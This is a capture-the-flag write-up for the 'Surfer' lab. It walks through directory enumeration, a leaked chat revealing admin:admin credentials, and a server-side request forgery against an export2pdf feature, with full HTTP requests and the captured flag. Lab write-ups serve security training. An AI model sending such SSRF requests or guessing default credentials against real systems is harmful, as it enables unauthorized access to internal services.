

# Surfer



## Log in Panel

After booting the machine, we will see a login page


No useful comment in the source, we will proceed with web enumeration

## Enumeration

I will use the common.txt in the Seclist `Discovery/Web-Content` directory

```bash
root@ip-<Attacker IP>:~# dirb http://<Target IP> /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
...
START_TIME: Mon Apr  6 13:02:19 2026
URL_BASE: http://<Target IP>/
WORDLIST_FILES: /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
...                                         

---- Scanning URL: http://<Target IP>/ ----
==> DIRECTORY: http://<Target IP>/assets/                                                                                                                                                
==> DIRECTORY: http://<Target IP>/backup/                                                                                                                                                
+ http://<Target IP>/index.php (CODE:302|SIZE:0)                                                                                                                                         
==> DIRECTORY: http://<Target IP>/internal/                                                                                                                                              
+ http://<Target IP>/robots.txt (CODE:200|SIZE:40)                                                                                                                                       
+ http://<Target IP>/server-status (CODE:403|SIZE:278)                                                                                                                                   
==> DIRECTORY: http://<Target IP>/vendor/                                                                                                                                                
                                                                                                                                                                                           
---- Entering directory: http://<Target IP>/assets/ ----
==> DIRECTORY: http://<Target IP>/assets/css/                                                                                                                                            
==> DIRECTORY: http://<Target IP>/assets/img/                                                                                                                                            
==> DIRECTORY: http://<Target IP>/assets/js/                                                                                                                                             
==> DIRECTORY: http://<Target IP>/assets/vendor/                                                                                                                                         
                                                                                                                                                                                           
---- Entering directory: http://<Target IP>/backup/ ----
                                                                                                                                                                                           
---- Entering directory: http://<Target IP>/internal/ ----
+ http://<Target IP>/internal/admin.php (CODE:200|SIZE:39)                                                                                                                               
```

There are many results, and the one that caught my eye is `robots.txt` and the `backup` directory. There are also lots of results related to the `vendor` directory, which makes me miss one of the important files I need to find later.

## Robots.txt

Going to `robots.txt`, we know the existence of the file `/backup/chat.txt`

```
User-Agent: *
Disallow: /backup/chat.txt
```

## Backup

Navigate to the `chat,txt`, we learn more about the login and the system.

```bash

Admin: I have finished setting up the new export2pdf tool.
Kate: Thanks, we will require daily system reports in pdf format.
Admin: Yes, I am updated about that.
Kate: Have you finished adding the internal server.
Admin: Yes, it should be serving flag from now.
Kate: Also Don't forget to change the creds, plz stop using your username as password.
Kate: Hello.. ?
```

To be precise, the credentials are `admin:admin`.

## Dashboard

With that, we have entered the dashboard. And we can see the Export Reports system


## Export PDF

We can try to export PDF. And we notice the results are from `http://127.0.0.1/server-info.php`


Hm, can we view other files then? We can try to intercept with Burp Suite

```bash
POST /export2pdf.php HTTP/1.1
Host: <Target IP>
Content-Length: 44
Cache-Control: max-age=0
Accept-Language: zh-TW,zh;q=0.9
Origin: http://<Target IP>
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://<Target IP>/index.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=4c3626947d4ba6ae6712c1b54464f61d
Connection: keep-alive

url=http%3A%2F%2F127.0.0.1%2Fserver-info.php
```

Turns out the `url` parameter is sent from the client, so we can tamper with it to whatever we want!

## Obtain the flag

I first thought there should be a `flag` endpoint or `flag.txt` file, but I failed miserably.

I then want to look back at the enumeration results, and found an interesting file

```bash
---- Entering directory: http://<Target IP>/internal/ ----
+ http://<Target IP>/internal/admin.php (CODE:200|SIZE:39)
```

Maybe I can learn more about the system by reading this PHP file? With this in mind, I send the following request

```bash
POST /export2pdf.php HTTP/1.1
Host: <Target IP>
Content-Length: 39
Cache-Control: max-age=0
Accept-Language: zh-TW,zh;q=0.9
Origin: http://<Target IP>
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://<Target IP>/index.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=4c3626947d4ba6ae6712c1b54464f61d
Connection: keep-alive

url=http://127.0.0.1/internal/admin.php
```

I was wondering why the PHP file is so short at the beginning. Turns out it is the flag we are looking for


Flag: `flag{6255c55660e292cf0116c053c9937810}`
